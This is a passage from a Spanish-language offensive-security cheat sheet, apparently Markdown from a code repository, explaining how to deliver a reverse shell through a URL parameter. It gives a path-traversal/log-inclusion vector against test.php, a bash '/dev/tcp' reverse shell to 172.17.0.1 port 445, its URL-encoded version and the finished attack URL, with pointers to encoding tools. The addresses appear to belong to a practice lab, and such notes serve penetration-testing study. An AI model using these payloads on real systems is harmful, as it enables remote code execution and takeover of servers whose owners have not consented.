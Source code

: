 #### Ejemplo:

```bash
bash -c 'comando1; comando2; ...'
```

---

### 🌍 Envío de reverse shell a través de una URL (URL encoding)

Si el vector de envío de la reverse shell es a través de una URL, es recomendable **encodear** la reverse shell.

#### Ejemplo:

Vector de entrada:

```
http://172.17.0.2/test.php?page=../../../../../var/mail/www-data&cmd=<COMANDO A ENVIAR>
```

Reverse shell:

```bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/445 0>&1"
```

Envío directo en la URL (sin encodear):

```
http://172.17.0.2/test.php?page=../../../../../var/mail/www-data&cmd=bash -c "bash -i >& /dev/tcp/172.17.0.1/445 0>&1"
```

⚠️ Esto probablemente cause un error de interpretación, por lo que se recomienda encodear la reverse shell.

#### Encodeo manual:

Usar [https://www.urlencoder.org/](https://www.urlencoder.org/) para obtener la versión encodeada.

Resultado:

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%22
```

Envío final:

```
http://172.17.0.2/test.php?page=../../../../../var/mail/www-data&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%22
```

👉 Desde [https://www.revshells.com/](https://www.revshells.com/) también tienes la opción de encodear directamente.

---

## 📝 Recomendaciones adicionales
